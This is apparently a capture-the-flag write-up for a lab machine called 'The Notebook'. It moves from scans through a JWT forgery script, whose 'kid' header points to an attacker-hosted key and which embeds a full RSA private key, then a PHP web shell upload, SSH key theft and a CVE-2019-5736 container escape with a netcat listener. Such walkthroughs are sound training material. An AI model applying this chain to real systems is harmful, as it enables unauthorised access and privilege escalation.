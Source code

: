 nmap result

```perl
nmap -sC -sV 10.10.10.230
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-20 10:08 EET
Nmap scan report for 10.10.10.230
Host is up (0.072s latency).
Not shown: 997 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

port 80 website

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6e748bab-4537-4785-a920-7030733a9969/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6e748bab-4537-4785-a920-7030733a9969/Untitled.png)

gobuster result

```perl
gobuster dir -u http://10.10.10.230/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,txt
/admin (Status: 403)
/logout (Status: 302)
/login (Status: 200)
/register (Status: 200)
```

/admin 

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/adb79ca8-d3f9-495a-a478-419422d7b98b/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/adb79ca8-d3f9-495a-a478-419422d7b98b/Untitled.png)

/register

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/609cef0d-59e4-473f-bb7d-a68cc3c9e57b/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/609cef0d-59e4-473f-bb7d-a68cc3c9e57b/Untitled.png)

Looks like the website is using `JWT Token` .

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2ad02f3a-9661-4645-a6f3-e10b4de0a810/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2ad02f3a-9661-4645-a6f3-e10b4de0a810/Untitled.png)

If we decode the token we get:

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8e78f72f-284c-4358-b688-b1e97f50fc48/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8e78f72f-284c-4358-b688-b1e97f50fc48/Untitled.png)

It looks like it's using `privKey.key` from `[localhost](http://localhost)` to sign the `jwt token`.

Use the following script to generate a JWT Token:

```perl
import jwt
private_key = '''
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA31XPGTYFBqxdv/HwLx7BWU1+ER4AhoD2ohp/HhUPTPpIacs2
vHR7iFteGng6D4ic6NiIubldXMLG0T4j9mgw0Uf3TY3I85hcGflNh1eQeSFTEDME
bLxSDHdDazvkxHnM2V3V8TzZdvxf2bEDI0uVc37kZm5e17b+vL5jkhzHs9uiMkJB
XnFN71yZgMQDVx3C3bC4WkcHj4+jwqaWyxGwSbHkLMB/GCvvAWaEYUNexVAfahLb
kG4H1DP3Vzn9ZHOcJRv7kLlFbgznaf3xXLFGoi/2te4REJMnOPFWRtnthMtiPBsn
LAJHC6w8Rj5XbEsrSsN3ib9s6M2M3Bw7Qt/keQIDAQABAoIBAQCugjVNxMkOmtay
ahC8MPLxnbyZEXFlqBWPOtcDIX+QLa0xhUli3j28oXAZjMIJazz4MGI9hRrvpX6G
92BQZL9oeCxEHDreJLoqzYOH8qMAE0r9SG/3qvsNpI84llc+MtIfMtQ+KMbf03nt
9wO1q5S+53L+mtVfBy1rO/U/sV9WKB04efXuE/8SNcakObzAyxMJBs7lkG9Uf3vv
ZUcLQ6CCxayqGaaaJYn4CRZinGHXS6shUaIkKtlN9cVdYkiChReBZLIha5sDoH27
qWI6yjb+a41SB3cgv+l63fK5N5Qla9WTpFBzMGywYnp8n/AiSlqj6E4arez7mEAR
4T9gLCMVAoGBAPo0G1jLN2FeYtwawjuNHGeFS1B+ZR+yT+ynltXT/nlb1lUlxeRw
0fYh+yhypL2s1xEOR6a4CwWW3Qo3xMADZ8lRZfhftxTzmXULPzHUmIghIAWKspye
UgphYN9fxlz3O8MUW60Qo1dMcSmwydzp43PfL4uhPAiWzlIqQV57GSe3AoGBAOSC
WlPSMMjyUG9yeQ34FotAWeNa9+wg+6AD7z4Gg5S4fHF39R3Xd6BZtSTfkD6aweay
EyV/u32nY/ozJrleR1aENDZxHRUcqjhnjteWJucalSKMGzWyPi6Zm6ofcKQ4MjVI
EBUVCFejwn6TBfbU1pUUd+lQVHEa/tiU0s10unVPAoGASmdubnRYLrNj0LKAajcn
aD2CTRiZN9jN3cFkoIffV/WQgleuRqWqOniWeMvG48TfW+oUMqbuWCYp61z0PGmG
1p5HJZpJFojubJkAnO/swCahoCRDw0Ftgjq9FRAlLAY1lmiabpfRCyfnSw+QqApB
onaPbAVxldhK2LJKKC+RJncCgYEA37RZd5vblK3cXu6jYjCQ6WxrU2+4LNuxWtrf
OUqpQExHz9HPDpLlEv8fnmSbUx6wWwfURK7Cv2XDM6sl6u1IS4OLlgywmv2AC04e
giIGHdNhUvv0m2HPDFHnGepDnRFC3fSZgfogO6QfAUkv2pBNLo9mQOwabswt15wC
r47qB3MCgYEAs9zuhBDna1Lrfapshv6z8h4WleIVtqx4ghThobiaAULI1EexS/Os
lIfbMMQotwIsGnCBpD2EQ/riX7x+X321p5RiMSQys0Ih5tei3+ljAz0zFBcjCPSh
36ozc3Sn7wlaYbacBL02UlM9YwjDE8/VjulFH5qqNBvuEIwC/a+TEko=
-----END RSA PRIVATE KEY-----
'''

payload = {'username':'linked','email':'linked@linked.com','admin_cap':'True'}
token = jwt.encode(payload,private_key,algorithm='RS256',headers={'kid':'http://10.10.14.164/privKey.key'})
print(token)
```

Also, to generate a RSA private key I used the following command:

```perl
openssl genrsa -out private.pem 2048
```

Start a python server and rename the `RSA key` to `privKey.key`

We used the RSA key to sign the token.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3de26e25-31ec-4e8b-b281-22bd32e8ee3a/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3de26e25-31ec-4e8b-b281-22bd32e8ee3a/Untitled.png)

Now we have admin privileges

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/24f26dfe-6e63-4922-a431-e75f68dbeccf/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/24f26dfe-6e63-4922-a431-e75f68dbeccf/Untitled.png)

Interesting note about PHP files, looks like they are executed.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/acd7dc2a-dcd5-4f85-84d7-8a9a45b07c61/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/acd7dc2a-dcd5-4f85-84d7-8a9a45b07c61/Untitled.png)

Upload a `php shell`.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f9c8792d-d387-41d5-8d8d-1f9c88822366/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f9c8792d-d387-41d5-8d8d-1f9c88822366/Untitled.png)

Looks like the shell.php got renamed.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7f55fbfc-d2ce-4735-8345-8e6630422641/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7f55fbfc-d2ce-4735-8345-8e6630422641/Untitled.png)

Shell as user `www-data`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f274e71a-1b43-4483-890b-a4e3ba8768dd/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f274e71a-1b43-4483-890b-a4e3ba8768dd/Untitled.png)

In `/var/backups` there is a `home.tar.gz` file.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3888729d-30e6-4069-a0e0-1e0426395080/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3888729d-30e6-4069-a0e0-1e0426395080/Untitled.png)

In there we can find the `id_rsa` key for user `noah`.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a8fa4389-809e-40c2-a986-a39e479a218a/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a8fa4389-809e-40c2-a986-a39e479a218a/Untitled.png)

Shell as user `noah`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b4046b9a-c93f-428a-a5bf-6d1a12f08fd4/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b4046b9a-c93f-428a-a5bf-6d1a12f08fd4/Untitled.png)

Checking privileges

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/852e62bc-4a88-4d94-bd77-e5f551d778bb/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/852e62bc-4a88-4d94-bd77-e5f551d778bb/Untitled.png)

Using the following command we can access the docker as root

```perl
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Searching for some exploit online i've found this one:

[https://github.com/Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)

This exploit requires that you have `root` access on the docker container.

First compile the `main.go` file using the command:

```perl
go build main.go
```

Send the compiled file to the docker container and execute it. Now wait for someone to connect to the docker container.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b24eaca1-ef39-421c-95b1-d44932bf0531/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b24eaca1-ef39-421c-95b1-d44932bf0531/Untitled.png)

Start a nc listener and from another bash session connect to the docker container using the `privileged command`. 

shell as `root`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f6195af9-da6f-46b4-99c3-376bce1ef85e/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f6195af9-da6f-46b4-99c3-376bce1ef85e/Untitled.png)

**************************************************FLAGS************************************************

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1f9947bc-6a64-4902-bed6-acf6fb61ee19/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1f9947bc-6a64-4902-bed6-acf6fb61ee19/Untitled.png)
